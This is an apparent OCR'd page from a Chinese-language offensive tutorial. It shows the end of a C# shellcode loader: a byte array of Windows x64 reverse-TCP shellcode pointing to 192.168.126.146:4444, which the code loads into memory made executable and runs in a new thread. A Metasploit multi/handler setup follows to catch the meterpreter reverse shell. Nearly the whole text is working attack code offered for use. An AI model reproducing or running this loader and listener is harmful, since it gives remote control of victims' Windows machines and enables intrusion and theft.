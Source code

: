```cs
0x8b,0x34,0x88,0x48,0x01,0xd6,0x4d,0x31,0xc9,0x48,0x31,0xc0,0xac,0x41,0xc1,
0xc9,0x0d,0x41,0x01,0xc1,0x38,0xe0,0x75,0xf1,0x4c,0x03,0x4c,0x24,0x08,0x45,
0x39,0xd1,0x75,0xd8,0x58,0x44,0x8b,0x40,0x24,0x49,0x01,0xd0,0x66,0x41,0x8b,
0x0c,0x48,0x44,0x8b,0x40,0x1c,0x49,0x01,0xd0,0x41,0x8b,0x04,0x88,0x48,0x01,
0xd0,0x41,0x58,0x41,0x58,0x5e,0x59,0x5a,0x41,0x58,0x41,0x59,0x41,0x5a,0x48,
0x83,0xec,0x20,0x41,0x52,0xff,0xe0,0x58,0x41,0x59,0x5a,0x48,0x8b,0x12,0xe9,
0x4b,0xff,0xff,0xff,0x5d,0x49,0xbe,0x77,0x73,0x32,0x5f,0x33,0x32,0x00,0x00,
0x41,0x56,0x49,0x89,0xe6,0x48,0x81,0xec,0xa0,0x01,0x00,0x00,0x49,0x89,0xe5,
0x49,0xbc,0x02,0x00,0x11,0x5c,0xc0,0xa8,0x7e,0x92,0x41,0x54,0x49,0x89,0xe4,
0x4c,0x89,0xf1,0x41,0xba,0x4c,0x77,0x26,0x07,0xff,0xd5,0x4c,0x89,0xea,0x68,
0x01,0x01,0x00,0x00,0x59,0x41,0xba,0x29,0x80,0x6b,0x00,0xff,0xd5,0x6a,0x0a,
0x41,0x5e,0x50,0x50,0x4d,0x31,0xc9,0x4d,0x31,0xc0,0x48,0xff,0xc0,0x48,0x89,
0xc2,0x48,0xff,0xc0,0x48,0x89,0xc1,0x41,0xba,0xea,0x0f,0xdf,0xe0,0xff,0xd5,
0x48,0x89,0xc7,0x6a,0x10,0x41,0x58,0x4c,0x89,0xe2,0x48,0x89,0xf9,0x41,0xba,
0x99,0xa5,0x74,0x61,0xff,0xd5,0x85,0xc0,0x74,0x0a,0x49,0xff,0xce,0x75,0xe5,
0xe8,0x93,0x00,0x00,0x00,0x48,0x83,0xec,0x10,0x48,0x89,0xe2,0x4d,0x31,0xc9,
0x6a,0x04,0x41,0x58,0x48,0x89,0xf9,0x41,0xba,0x02,0xd9,0xc8,0x5f,0xff,0xd5,
0x83,0xf8,0x00,0x7e,0x55,0x48,0x83,0xc4,0x20,0x5e,0x89,0xf6,0x6a,0x40,0x41,
0x59,0x68,0x00,0x10,0x00,0x00,0x41,0x58,0x48,0x89,0xf2,0x48,0x31,0xc9,0x41,
0xba,0x58,0xa4,0x53,0xe5,0xff,0xd5,0x48,0x89,0xc3,0x49,0x89,0xc7,0x4d,0x31,
0xc9,0x49,0x89,0xf0,0x48,0x89,0xda,0x48,0x89,0xf9,0x41,0xba,0x02,0xd9,0xc8,
0x5f,0xff,0xd5,0x83,0xf8,0x00,0x7d,0x28,0x58,0x41,0x57,0x59,0x68,0x00,0x40,
0x00,0x00,0x41,0x58,0x6a,0x00,0x5a,0x41,0xba,0x0b,0x2f,0x0f,0x30,0xff,0xd5,
0x57,0x59,0x41,0xba,0x75,0x6e,0x4d,0x61,0xff,0xd5,0x49,0xff,0xce,0xe9,0x3c,
0xff,0xff,0xff,0x48,0x01,0xc3,0x48,0x29,0xc6,0x48,0x85,0xf6,0x75,0xb4,0x41,
0xff,0xe7,0x58,0x6a,0x00,0x59,0x49,0xc7,0xc2,0xf0,0xb5,0xa2,0x56,0xff,0xd5 };

IntPtr AmnGaO = VirtualAlloc(0, (UInt32)QWKpWKhcs.Length, 0x3000, 0x04);

Marshal.Copy(QWKpWKhcs, 0, (IntPtr)(AmnGaO), QWKpWKhcs.Length);

IntPtr oXmoNUYvivZlXj = IntPtr.Zero; UInt32 XVXTOi = 0; IntPtr pAeCTf wBS = IntPtr.Zero;

uint BnhanUiUJaetgy;

bool iSdNUQK = VirtualProtect(AmnGaO, (uint)0x1000, (uint)0x20, out BnhanUiUJaetgy);

oXmoNUYvivZlXj = CreateThread(0, 0, AmnGaO, pAeCTfwBS, 0, ref XVXTOi);

WaitForSingleObject(oXmoNUYvivZlXj, 0xFFFFFFFF);}

}
```

#### 执行监听

```bash
use exploit/multi/handler
msf exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
msf exploit(multi/handler) > set lhost 192.168.126.146
msf exploit(multi/handler) > set lport 4444
msf exploit(multi/handler) > exploit
```
